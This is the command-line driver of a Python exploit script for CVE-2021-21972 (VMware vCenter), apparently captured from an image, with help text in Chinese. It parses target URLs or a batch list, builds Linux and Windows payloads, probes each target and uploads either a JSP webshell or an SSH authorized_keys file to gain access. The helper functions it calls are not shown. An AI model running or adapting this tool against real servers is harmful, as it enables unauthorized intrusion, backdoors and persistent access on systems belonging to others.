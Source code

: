 ```python

def help():
	print(
	"""
	Usage:CVE-2021-21972.py [option]
	-u or --url：目标url
	-t or --type：攻击方式（ssh/webshell)
	-f or --file：要上传的文件（webshell或authorized_keys）	例如：CVE-2021-21972.py -u https://127.0.0.1 -t webshell -f shell.jsp
	-p or --proxy：设置代理	例如：CVE-2021-21972.py -u https://127.0.0.1 -t webshell -f shell.jsp -p http://127.0.0.1:8080
	-l or --list：批量检测	例如：CVE-2021-21972.py -l list.txt -t webshell -f shell.jsp
	"""
    )

if __name__ == "__main__":
	if len(sys.argv) == 1:
		help()
		sys.exit()

	try:
		opts, args = getopt.getopt(sys.argv[1:], "l:u:t:f:p:")
	except getopt.GetoptError:
		print("argv error,please input")
	targets = []
	payload_type = ''
	filename = ''
	for opt, arg in opts:
		if opt in ('-p', '--proxy'):
			proxy = {arg[:arg.find(':')]: arg}
	for opt, arg in opts:
		if opt in ('-l', '--list'):
			with open(arg, 'r') as t:
				for u in t.read().split('\n'):
					targets.append(u)
		elif opt in ('-u', '--url'):
			targets.append(arg)
	for opt, arg in opts:
		if opt in ('-t', '--type'):
			payload_type = arg
	for opt, arg in opts:
		if opt in ('-f', '--file'):
			filename = arg
	payload_linux(filename, payload_type)
	if payload_type != 'ssh':
		payload_win(filename)
	for target in targets:
		print('-' * 50)
		print('正在检测%s...' % target)
		if poc(target):
			if send_payload(target, payload_type):
				continue
		print('Failed')

```
